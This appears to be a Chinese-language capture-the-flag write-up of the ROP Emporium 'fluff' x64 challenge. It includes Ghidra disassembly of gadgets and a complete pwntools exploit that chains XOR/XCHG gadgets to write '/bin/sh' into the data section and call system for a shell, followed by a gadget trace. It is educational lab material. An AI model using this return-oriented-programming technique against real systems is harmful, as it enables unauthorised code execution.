







via：https://ropemporium.com/challenge/fluff.html

# fluff

The concept here is identical to the write4 challenge. The only difference is we may struggle to find gadgets that will get the job done. If we take the time to consider a different approach we'll succeed.
Click below to download the binary.

[64bit](https://ropemporium.com/binary/fluff.zip) [32bit](https://ropemporium.com/binary/fluff32.zip)

## Working backwards

Once we've employed our usual drills of checking protections and searching for interesting symbols and strings we can think about what we're trying to acheive and plan our chain. A solid approach is to work backwards; we'll need a mov [reg], reg or something equivalent to make the actual write so we can start there.

### Do it!

There's not much more to this challenge, we just have to think about ways to move data into the registers we want to control. Sometimes we'll need to take an indirect approach, especially in smaller binaries with fewer available gadgets like this one. Once you've got a working write primitive go ahead and craft your solution. If you don't feel like doing the hard work note that the 64 bit version of this challenge can also be pwned using the same single link chain that works on write4 🤦‍♂️

### x64



可以看到漏洞点这里

填充长度：`0x20 + 0x8`



程序开了 `NX` 也就是栈不可执行，不能像前面一样直接使用 `shellcode` 然后`call rax`

`ROPgadget` 瞎逛一下





没有拿 `shell` 和拿 f`lag` 的字符串

现在有两条路可以走

- ret2libc，使用 puts 泄露出 某个已经被 call 过的函数的 got 表上的地址，从而得到 libc 的基地址，然后用这个基地址加上 sh 在 libc 里的偏移得到 sh 的地址，然后调用 system 拿到 shell
- 找 gadget 把 sh 写到内存里去，然后调用 system 拿到 shell

官方的意思是让我们用第二种方法

找一下有没有适合的 gadget

主要目的是写内存

我很奇怪，回到 ghidra 看看是不是有后门



？？？？？？我昨晚 4 点怕是瞎了，有一个 `questionableGadgets()`

```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined questionableGadgets()
         undefined    AL:1      <RETURN>
                    questionableGadgets               XREF[1]: Entry Point(*)  
   00400820 41 5f      POP     R15
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   0040082d 41         ??      41h    A
   0040082e 5e         ??      5Eh    ^
   0040082f 4d         ??      4Dh    M
   00400830 31         ??      31h    1
   00400831 e3         ??      E3h
   00400832 41         ??      41h    A
   00400833 5c         ??      5Ch    \
   00400834 41         ??      41h    A
   00400835 bd         ??      BDh
   00400836 60         ??      60h    `
   00400837 40         ??      40h    @
   00400838 60         ??      60h    `
   00400839 00         ??      00h
   0040083a c3         ??      C3h
   0040083b bf         ??      BFh
   0040083c 50         ??      50h    P
   0040083d 10         ??      10h
   0040083e 60         ??      60h    `
   0040083f 00         ??      00h
   00400840 4d         ??      4Dh    M
   00400841 87         ??      87h
   00400842 d3         ??      D3h
   00400843 41         ??      41h    A
   00400844 5f         ??      5Fh    _
   00400845 41         ??      41h    A
   00400846 bb         ??      BBh
   00400847 50         ??      50h    P
   00400848 20         ??      20h     
   00400849 60         ??      60h    `
   0040084a 00         ??      00h
   0040084b c3         ??      C3h
   0040084c 41         ??      41h    A
   0040084d 5f         ??      5Fh    _
   0040084e 4d         ??      4Dh    M
   0040084f 89         ??      89h
   00400850 1a         ??      1Ah
   00400851 41         ??      41h    A
   00400852 5d         ??      5Dh    ]
   00400853 41         ??      41h    A
   00400854 5c         ??      5Ch    \
   00400855 45         ??      45h    E
   00400856 30         ??      30h    0
   00400857 22         ??      22h    "
   00400858 c3         ??      C3h
   00400859 0f         ??      0Fh
   0040085a 1f         ??      1Fh
   0040085b 80         ??      80h
   0040085c 00         ??      00h
   0040085d 00         ??      00h
   0040085e 00         ??      00h
   0040085f 00         ??      00h
```

后面这些反编译器遇到 ret 后直接不反编译了，手动反编译看看

反正 ghidra 下，选中，按 d 就可以

是这样的：



其实这个算半个后门

```asm
                    ********************************************
                    *                 FUNCTION                 *
                    ********************************************
                    undefined questionableGadgets()
         undefined    AL:1      <RETURN>
                    questionableGadgets               XREF[1]: Entry Point(*)  
   00400820 41 5f      POP     R15
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   0040082d 41 5e      POP     R14
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET
   0040083b bf 50      MOV     EDI,data_start
            10 60 00
   00400840 4d 87 d3   XCHG    R11,R10
   00400843 41 5f      POP     R15
   00400845 41 bb      MOV     R11D,_ITM_registerTMCloneTable    = ??
            50 20 
            60 00
   0040084b c3         RET
   0040084c 41 5f      POP     R15
   0040084e 4d 89 1a   MOV     qword ptr [R10],R11
   00400851 41 5d      POP     R13
   00400853 41 5c      POP     R12
   00400855 45 30 22   XOR     byte ptr [R10],R12B
   00400858 c3         RET
   00400859 0f 1f      NOP     dword ptr [RAX]
            80 00 
            00 00 00
```

抽取需要的 gadget：

```asm
   ;这里可以给 R12 赋值，这个最终会进入 R10（0x00400832 -> 0x0040082f -> 0x00400840）
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET
   
   ; xor 置 0 R11 ，因为如果 R11 不是 0 后面会影响到（0x0040082f）
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET 
   
   ; XCHG指令，双操作数指令，用于交换 src 和 dest 操作数的内容。其中， src 和 dest 可以是两个通用寄存器，也可以是一个寄存器和一个 memory 位置。
   ; 其实这一步是为 0x0040084e 写内存做铺垫，当 R11 存的是一个地址时，在 0x0040084e 就是往这个地址写
   00400840 4d 87 d3   XCHG    R11,R10
   00400843 41 5f      POP     R15
   00400845 41 bb      MOV     R11D,_ITM_registerTMCloneTable    = ??
            50 20 
            60 00
   0040084b c3         RET
   
   00400822 4d 31 db   XOR     R11,R11
   00400825 41 5e      POP     R14
   00400827 bf 50      MOV     EDI,data_start
            10 60 00
   0040082c c3         RET
   
   0040082f 4d 31 e3   XOR     R11,R12
   00400832 41 5c      POP     R12
   00400834 41 bd      MOV     R13D,0x604060
            60 40 
            60 00
   0040083a c3         RET 
   
   ; 写内存
   0040084e 4d 89 1a   MOV     qword ptr [R10],R11
   00400851 41 5d      POP     R13
   00400853 41 5c      POP     R12
   00400855 45 30 22   XOR     byte ptr [R10],R12B
   00400858 c3         RET
```

我们需要把 `/bin/sh` 字符串 写进 data 段，因为在 `0x00400827`  把 data 段的地址放进了 edi 然后一直到我们的 rop 链结束都没有改变过，这样，只要 `/bin/sh` 的地址一直存在 edi 里面，在调用 system 的时候就不用 pop rdi 了。

有点乱，仔细看吧，写 payload ：

```python
#!/bin/env python2
#! _*_ coding=utf-8 _*_

from pwn import *

fluff = ELF("./fluff")
p = process("./fluff")


bin_sh = "/bin/sh\x00"
system_plt = fluff.plt["system"]
pop_r12_ret = 0x400832
pop_r14_ret = 0x400822
xor_r11_r12_pop_r12_ret = 0x0040082f 
pop_r15_ret = 0x00400840
pop_r13_pop_r12_ret = 0x0040084e
data_section = 0x601050

exp = "A" * 0x28

exp += p64(pop_r12_ret)
exp += p64(data_section)
'''
r12 = data_section
r13 = 0x604060
'''

exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11
r14 = "AAAAAAAA"
edi = data_start (data_section == data_section)
'''


exp += p64(xor_r11_r12_pop_r12_ret)
exp += bin_sh
'''
r11 = r11 ^ r12 (r11 == 0, r12 == data_section, 所以 r11 = data_section)
r12 = "/bin/sh\x00"
r13 = 0x604060
'''


exp += p64(pop_r15_ret)
exp += "A" * 8
'''
xchg r11,r10 (交换 r11 和 r10 的值)
r15 = "AAAAAAAA"
r11 = _ITM_registerTMCloneTable
'''


exp += p64(pop_r14_ret)
exp += "A" * 8
'''
r11 = r11 ^ r11 (r11 = 0)
r14 = "AAAAAAAA"
'''


exp += p64(xor_r11_r12_pop_r12_ret)
exp += "A" * 8
'''
r11 = r11 ^ r12 (r11 = r12)
r12 = "AAAAAAAA"
'''


exp += p64(pop_r13_pop_r12_ret)
exp += "A" * 8
exp += "\x00" * 8
'''
*(r10) = r11 (往 r10 存的地址上写入 r11, 其实 r11 就是 /bin/sh\x00, r10 存的是 data_section)
相当于往 data_section 写入 /bin/sh\x00
r13 = "AAAAAAAA"
r12 = "\x00\x00\x00\x00\x00\x00\x00\x00"
*(r10) = *(r10) ^ r12 (那个 r12B 就是取 r12 的一个 Bytes，为了防止这个破坏 *(r10) ,前一步把 r12 置 \x00, 任何字符异或 \x00  都得到它本身)
'''


exp += p64(system_plt)
'''
call system
参数就是 data_section
上面已经把 data_section 复制给 edi
'''

p.sendline(exp)
p.interactive()
```

完整的汇编是这样的：

```asm
   0x400804 <pwnme+79>                  nop    
   0x400805 <pwnme+80>                  leave  
   0x400806 <pwnme+81>                  ret    
    ↓
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x400840 <questionableGadgets+32>    xchg   r11, r10
   0x400843 <questionableGadgets+35>    pop    r15
   0x400845 <questionableGadgets+37>    mov    r11d, 0x602050
   0x40084b <questionableGadgets+43>    ret    
    ↓
   0x400822 <questionableGadgets+2>     xor    r11, r11
   0x400825 <questionableGadgets+5>     pop    r14
   0x400827 <questionableGadgets+7>     mov    edi, data_start <0x601050>
   0x40082c <questionableGadgets+12>    ret    
    ↓
   0x40082f <questionableGadgets+15>    xor    r11, r12
   0x400832 <questionableGadgets+18>    pop    r12
   0x400834 <questionableGadgets+20>    mov    r13d, 0x604060
   0x40083a <questionableGadgets+26>    ret    
    ↓
   0x40084e <questionableGadgets+46>    mov    qword ptr [r10], r11
   0x400851 <questionableGadgets+49>    pop    r13
   0x400853 <questionableGadgets+51>    pop    r12
   0x400855 <questionableGadgets+53>    xor    byte ptr [r10], r12b <0x601050>
   0x400858 <questionableGadgets+56>    ret    
    ↓
   0x4005e0 <system@plt>                jmp    qword ptr [rip + 0x200a3a] <0x601020>
```




pwn！